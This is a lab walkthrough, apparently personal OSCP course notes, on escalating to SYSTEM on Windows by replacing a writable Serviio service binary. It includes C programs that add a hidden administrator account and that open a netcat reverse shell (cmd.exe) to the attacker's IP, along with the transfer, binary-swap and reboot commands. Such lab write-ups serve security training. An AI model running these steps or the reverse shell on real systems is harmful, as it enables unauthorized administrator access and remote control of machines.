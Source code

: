 18.2.4.1

# 18.2.4.1
## 18.2.4.1.1. Log in to your Windows client as an unprivileged user and attempt to elevate your privileges to SYSTEM using the above vulnerability and technique.

Show a list of running services using PowerShell
`Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}`
![02be06bfcb5052ab6a01ea88f63a8d14.png](:/65ec6493350d488dbe8452244eb13ca3)

Serviio stands out from the rest because it's in a different location from all else.
![52f89e5b70529a712f4e13a1b4e32709.png](:/1baa8413f9c34a5caf46baf4047926ce)

Enumerate the permissions on the target service with the *icacles* utility. The output shows us the associated permissions. Any user (BUILTIN\Users) on the system has full read and write access to it.
`icacls "C:\Program Files\Serviio\bin\ServiioService.exe"`
![5e92eb18031d644b18e12fac453e821d.png](:/713ff06b6e55471e96531fb5816c87fc)

On Kali, create a C program that creates a user named "evil" and add that user to the local Administrators group using the system function.
```c
kali@kali:~/gitWorkspace/pwk/oscpExercises/18_privilegeEscalation$ cat adduser.c 
#include <stdlib.h>

int main()
{
  int i;

  i = system ("net user evil Ev!lpass /add");
  i = system ("net localgroup administrators evil /add");

  return 0;
}
```

Cross-compile the code on Kali 
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/18_privilegeEscalation$ i686-w64-mingw32-gcc adduser.c -o adduser.exe
kali@kali:~/gitWorkspace/pwk/oscpExercises/18_privilegeEscalation$ 
```

Transfer adduser.exe to the Windows machine using netcat
```plaintext
[sudo] password for kali: 
listening on [any] 4444 ...
connect to [192.168.119.214] from (UNKNOWN) [192.168.214.10] 56843
```

```plaintext
PS C:\Users\admin\Desktop> nc -nv 192.168.119.214 4444 > adduser.exe             (UNKNOWN) [192.168.119.214] 4444 (?) open 
```

Transfer adduser.exe to our target and replace the original **ServiioService.exe** binary with our malicious copy
`move "C:\Program Files\Serviio\bin\ServiioService.exe" "C:\Program Files\Serviio\bin\ServiioService_original.exe"`
`move adduser.exe "C:\Program Files\Serviio\bin\ServiioService.exe"`
![84e9fc78e8976123aaf00a30f9631516.png](:/1aa07b3e54824c2aa5baec84b323ebf5)
`dir "C:\Program Files\Serviio\bin\"`
![46a4f0400ee2f7341a018c7c07897ad9.png](:/abcfe59fef8046449d352f73c1b1ad04)


Attempt to restart the service. Unfortunately we are denied access.
`net stop Serviio`
![722d5bf2e9c143d0ff415cce20121c3c.png](:/c9e0618e51e44d89a72fc77bf201e859)

Check the start options of the Serviio service. We see it's on auto start
`c:\>wmic service where caption="Serviio" get name, caption, state, startmode`
![424e54d309f9869fafdf16da80277eed.png](:/02d004f501744d2abb2b104ebd83a01c)

Check if our current user has rights to restart the system. We can shut down the system, but currently it;s disabled. We can enable this setting
`whoami /priv`
![fe96491e2b61c897b60658fd663a960d.png](:/2a20d1c602ca4d93a3fe1ac9ca874a36)

Reboot
`shutdown /r /t 0`
![e58d22463cc2ff675c438946064a31ce.png](:/82e0c8f1bbbe468292d5021faf83a764)

Confirm that the evil user is part of the Administrators group
`net localgroup Administrators`
![77bebae73b4cf38afc95627b365a0cf5.png](:/63a23c792ee846e38945b6cfd4a9376a)



## 18.2.4.1.2. Attempt to get a remote system shell rather than adding a malicious user.

Create a C program that creates a netcat client that sends cmd.exe upon connection.
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/18_privilegeEscalation$ cat revshell.c 
#include <stdlib.h>

int main()
{
  int i;

  i = system ("nc.exe 192.168.119.214 4444 -e cmd.exe");

  return 0;
}
```

Cross-compile
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/18_privilegeEscalation$ i686-w64-mingw32-gcc revshell.c -o revshell.exe
kali@kali:~/gitWorkspace/pwk/oscpExercises/18_privilegeEscalation$ 
```

Transfer the .exe to Windows via netcat.
Here's the Kali listener
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/18_privilegeEscalation$ i686-w64-mingw32-gcc revshell.c -o revshell.exe
kali@kali:~/gitWorkspace/pwk/oscpExercises/18_privilegeEscalation$ 
```
Here's the Windows nc client
```plaintext
C:\Users\student\Desktop>nc.exe -nv 192.168.119.214 4444 > revshell.exe
(UNKNOWN) [192.168.119.214] 4444 (?) open  
```

We can transfer it to our target and replace the original ServiioService.exe binary with our malicious copy:
`move "C:\Program Files\Serviio\bin\ServiioService.exe" "C:\Program Files\Serviio\bin\ServiioService_original.exe"`
`move revshell.exe "C:\Program Files\Serviio\bin\ServiioService.exe"`
`dir "C:\Program Files\Serviio\bin\"`
![b45385b422999cb0f9c53b6ba7a70ee9.png](:/9d23b61bae8741e58b8617defbe2a2ee)

Attempt to restart the service
`net stop Serviio`
![83e2e7e33545487fc6826659322e2440.png](:/e2f79e75519148b08ce91b65288a148b)

Check to see if the service is set to "Automatic". If so, we can try to restart the service by rebooting. Let's check the start options for the Serviio service by using *Windows Management Instrumentation Command-line*. We see that this service will start after a reboot.
`wmic service where caption="Serviio" get name, caption, state, startmode`
![3556ab19ef9f4ef92c597b5851b24471.png](:/b30e24696e56490984b979596fa35462)

Determine if our current user has the rights to restart the system. 
`whoami /priv`
![5e9abf76588fed4e02f3fe6d00fe8524.png](:/65a306468be44a9d8eb9c87c25e682c0)

Before restarting the Windows client, start a netcat listener on Kali
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/18_privilegeEscalation$ nc -lnvp 4444
listening on [any] 4444 ...
```

The previous Windows whoami /priv command shows our user is granted shutdown privileges via SeShutdownPrivilege. Currently the features is disabled. We can enable it by indicating a reboot in the shutdown command
`shutdown /r /t 0`

We wait for the system to finish rebooting. When the Serviio service starts again, we get a shell on the Kali listener as nt authority\system
![f471e282b06154b808a6c65721a54148.png](:/db028167218a42da871c8eec5c71797d)

























id: 578c13a863704d908c952229503f829a
parent_id: 7063e05738334df49d0ff0cd80216dba
created_time: 2020-10-02T10:20:39.355Z
updated_time: 2020-10-03T21:08:13.388Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-10-02T10:20:39.355Z
user_updated_time: 2020-10-03T21:08:13.388Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1